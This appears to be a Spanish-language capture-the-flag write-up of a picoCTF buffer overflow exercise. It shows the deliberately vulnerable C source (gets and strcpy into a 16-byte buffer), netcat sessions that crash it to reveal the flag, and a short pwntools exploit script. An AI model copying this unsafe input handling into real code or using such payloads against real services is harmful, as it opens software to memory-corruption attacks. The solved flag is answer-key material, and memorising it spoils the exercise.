 ## Objetivo
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c).Connect using:`nc saturn.picoctf.net 55503`
## Solución
Vemos el código fuente del programa.
```bash
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
              
```

La variable buf2 copia mas de lo que puede, y el lector trata de guardar algo mas grande de lo que puede, por lo tanto se provoca un desborde.

```bash
┌──(kali㉿kali)-[~/picoCTF/binexp1/bufferoveflow]
└─$ nc saturn.picoctf.net 55503
Input: qwertyuiopasdfghjkzxcvbn
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

```

```bash
┌──(kali㉿kali)-[~/picoCTF/binexp1/bufferoveflow]
└─$ nc saturn.picoctf.net 55503 <<< $(python3 -c "print('A'*20)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

```

Exploit
```python
from pwn import *
#p = process()
p =remote('saturn.picoctf.net', 62369)
print(p.recv().decode())

overflow = b'A'*20

p.sendline(overflow)
print(p.recvall().decode())
p.close()

```
## Notas Adicionales

## Referencias
